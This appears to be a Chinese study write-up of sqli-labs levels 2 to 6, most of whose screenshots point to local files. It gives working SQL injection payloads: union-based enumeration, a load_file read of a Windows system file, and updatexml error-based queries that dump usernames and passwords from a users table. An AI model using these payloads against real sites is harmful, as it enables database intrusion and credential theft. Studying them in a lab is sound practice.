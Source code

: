 ##SQL注入第二关

![](F:\练习\微信图片_20240516221326.png)

![微信图片_20240516221332](F:\练习\微信图片_20240516221332.png)

判断为数字型

![微信图片_20240516221341](F:\练习\微信图片_20240516221341.png)

查找有3列



![微信图片_20240516221640](F:\练习\微信图片_20240516221640.png)

确定回显点2，3

![微信图片_20240516223115](F:\练习\微信图片_20240516223115.png)

查看数据库为security

![微信图片_20240516223201](F:\练习\微信图片_20240516223201.png)

MYSQL数据库的所有表的信息都存储在了information_schema数据库里面的tables这个表里

group_concat(table_name)就是把多行的table_name在一行里面显示

from information_schema.tables即table_name的内容在这个数据库里的tables表里查询，并且有个条件是table_name这个表所属的数据库是security

爆表名用户信息在users中

![微信图片_20240516223337](F:\练习\微信图片_20240516223337.png)

可以先对里面的字段进行查询（information_schema.columns表中三列table_schema是数据库名，
table_name中表名,column_name是列名。）

爆字段名

![微信图片_20240516223417](F:\练习\微信图片_20240516223417.png)

爆出所有的用户名和密码

#### 注入流程

是否存在注入并且判断注入类型

判断字段数  order by 

确定回显点   [union](https://so.csdn.net/so/search?q=union&spm=1001.2101.3001.7020) select 1,2

查询数据库信息  @@version  @@datadir

查询用户名，数据库名   user()  database()

文件读取 union select 1,load_file('C:\\wondows\\win.ini')#

##第三关

![微信图片_20240516224054](F:\比赛\微信图片_20240516224054.png)

判断sql语句是单引号字符型且有括号

![微信图片_20240516224105](F:\比赛\微信图片_20240516224105.png)

![微信图片_20240516224257](F:\比赛\微信图片_20240516224257.png)

?id=1) order by 4 --+ 报错，说明当前表的字段数只有3个

![微信图片_20240516224357](F:\比赛\微信图片_20240516224357.png)

找到数据库为security

和第二关一样步骤

![微信图片_20240516224518](F:\比赛\微信图片_20240516224518.png)

爆出所有的用户名和密码

##第四关

![微信图片_20240516225127](F:\比赛\微信图片_20240516225127.png)

输入?id=-1") --+，结果没有回显出来，也没有爆出错误，说明这里存在双引号和括号闭合问题的sql注入

![微信图片_20240516225245](F:\比赛\微信图片_20240516225245.png)

?id=1") order by 4 --+ 报错，说明当前表的字段数只有3个

![微信图片_20240516225330](F:\比赛\微信图片_20240516225330.png)

![微信图片_20240516225335](F:\比赛\微信图片_20240516225335.png)

![微信图片_20240516225339](F:\比赛\微信图片_20240516225339.png)
##第五关

![](F:\练习\微信图片_20240520221413.png)

![](F:\练习\微信图片_20240520221358.png)

根据报错信息可知是单引号字符型

![](F:\练习\微信图片_20240520221527.png)

查找4出现报错则有3列

![](F:\练习\微信图片_20240520221556.png)

正常来找库名，没有显示

![](F:\练习\微信图片_20240520222323.png)

UPDATEXML (XML_document, XPath_string, new_value); 
第一个参数：XML_document是String格式，为XML文档对象的名称
第二个参数：XPath_string (Xpath格式的字符串)
第三个参数：new_value，String格式，替换查找到的符合条件的数据

这个自己理解为第一个和最后一个可以随便写，但中间必须得用其正常格式

![](F:\练习\微信图片_20240520223228.png)

![](F:\练习\微信图片_20240520223224.png)

发现其users

![](F:\练习\微信图片_20240520223309.png)

爆出username，password

![](F:\练习\微信图片_20240520223400.png)

![](F:\练习\微信图片_20240520223356.png)

一个一个爆出来，也可以?id=1"and updatexml(1,concat(0x7e,(select concat_ws(',',username,password)from security.users limit 8,1)),0)--+账户和密码同时出来

##第六关

![](F:\练习\微信图片_20240520223651.png)

![](F:\练习\微信图片_20240520223805.png)

id=1"双引号报错

![](F:\练习\微信图片_20240520223810.png)

爆字段个数

![](F:\练习\微信图片_20240520223931.png)

![](F:\练习\微信图片_20240520223935.png)

用updatexml爆出库名

![](F:\练习\微信图片_20240520224034.png)

?id=1' and updatexml(1,concat(0x7e,(select distinct concat(0x7e,(select group_concat(table_name)),0x7e)from information_schema.tables where table_schema='security'),0x7e),1) --+

![](F:\练习\微信图片_20240520224138.png)

爆出username，password

![](F:\练习\微信图片_20240520224248.png)

?id=1" and updatexml(1,concat(0x7e,(select concat_ws(',',username,password)from security.users limit 8,1)),0)--+

改变limit后的数字获得不同数据

LIMIT[位置偏移量,]行数

//如果只给定一个参数，它表示返回最大的记录行数目：
 ![点击图片可在新窗口打开](http://images.csdn.net/syntaxhighlighting/OutliningIndicators/None.gif)mysql> SELECT * FROM table LIMIT 5;   //检索前 5 个记录行

![点击图片可在新窗口打开](http://images.csdn.net/syntaxhighlighting/OutliningIndicators/None.gif)mysql> SELECT * FROM table LIMIT 95,-1; // 检索记录行 96-last.从95+1开始算

如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。

